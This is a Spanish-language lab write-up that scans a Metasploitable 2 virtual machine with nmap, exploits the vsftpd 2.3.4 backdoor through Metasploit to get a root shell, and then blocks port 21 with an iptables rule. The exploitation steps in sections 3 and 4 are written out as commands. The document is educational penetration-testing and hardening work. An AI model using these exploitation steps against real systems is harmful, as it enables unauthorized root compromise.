





# Laboratorio: Análisis de Vulnerabilidades, Explotación y Mitigación Perimetral

## 1. Descripción del Entorno
* **Sistema Atacante:** Kali Linux (IP: `10.0.2.15`)
* **Sistema Objetivo:** Metasploitable 2 (IP: `10.0.2.3`)
* **Objetivo:** Identificar servicios vulnerables, realizar la explotación controlada del protocolo FTP, diagnosticar la administración del servicio en el sistema operativo local e implementar una regla de endurecimiento (hardening) mediante firewall de red.

---

## 2. Fase de Reconocimiento (Nmap)
Se ejecutó un escaneo inicial dirigido y con detección de versiones sobre los puertos principales del sistema objetivo para auditar su superficie de ataque:
nmap -sV -p 21,22,80,445 10.0.2.3

El resultado del escaneo identificó de forma precisa que el puerto 21 (FTP) se encuentra expuesto ejecutando el servicio vsftpd 2.3.4. Esta versión específica posee un backdoor crítico documentado que permite la ejecución remota de comandos no autenticados.

---

## 3. Configuración del Framework Metasploit
Confirmado el vector de entrada, se inicializó la consola de Metasploit (msfconsole) y se cargó el módulo de explotación apuntando a la firma del servicio comprometido. Se parametrizó el entorno de pruebas definiendo las variables del objetivo (RHOSTS) y del equipo atacante (LHOST):

msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.0.2.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > set LPORT 4444
msf exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 10.0.2.15

---

## 4. Explotación y Escalada de Privilegios
Se ejecutó el comando run para lanzar la carga útil (payload). El exploit aprovechó de manera exitosa la brecha de la aplicación para interceptar las conexiones de red y abrir una sesión interactiva remota.

Posteriormente, mediante la instrucción shell, se obtuvo acceso directo a la consola del sistema operativo y se validaron los privilegios concurrentes mediante el comando de diagnóstico:

* whoami
El servidor objetivo retornó como identidad el usuario root, confirmando el compromiso absoluto del host y el control total de sus recursos informáticos.

## 5. Diagnóstico de Incidentes y Remediación Técnica
Durante la fase de mitigación en el servidor afectado (Metasploitable 2), se procedió a realizar un diagnóstico técnico para deshabilitar el servicio de manera persistente. En este proceso se evaluaron distintas metodologías de administración local del sistema:

---

Gestión de Init Scripts: Comandos genéricos de control como sudo service vsftpd stop o llamadas directas al directorio /etc/init.d/vsftpd stop arrojaron fallos de comando no encontrado (command not found), evidenciando la falta de scripts de servicio locales estándar para esta aplicación de manera independiente.

Terminación Forzada de Procesos: El comando sudo killall vsftpd retornó como respuesta que no existía ningún proceso activo (no process killed). Esto determinó que el demonio de vsftpd no opera bajo un esquema continuo en segundo plano, sino que es levantado dinámicamente a través de un súper-servidor de internet (inetd / xinetd) al recibir conexiones en el puerto de escucha.

* Solución perimetral (Netfilter / IPTables):
Ante la naturaleza del sistema operativo, se optó por la técnica de aislamiento de red a nivel de kernel. Se inyectó una regla restrictiva en la tabla de filtrado de paquetes (iptables) para denegar y descartar inmediatamente cualquier tráfico entrante dirigido a dicho protocolo:
* sudo iptables -A INPUT -p tcp --dport 21 -j DROP

---

## 6. Verificación de la Solución (Post-Hardening)
Para comprobar el éxito de la regla de filtrado y garantizar la protección del activo, se regresó a la máquina atacante Kali Linux y se relanzó la auditoría del puerto afectado:

nmap -sV -p 21,22,80,445 10.0.2.3
El resultado analítico final evidenció un cambio drástico en la postura de seguridad: el puerto 21 cambió su estado de open a filtered (filtrado). El firewall intercepta y descarta las peticiones entrantes antes de llegar a la aplicación, neutralizando por completo el vector de ataque y blindando de forma efectiva el servidor contra futuros intentos de explotación.
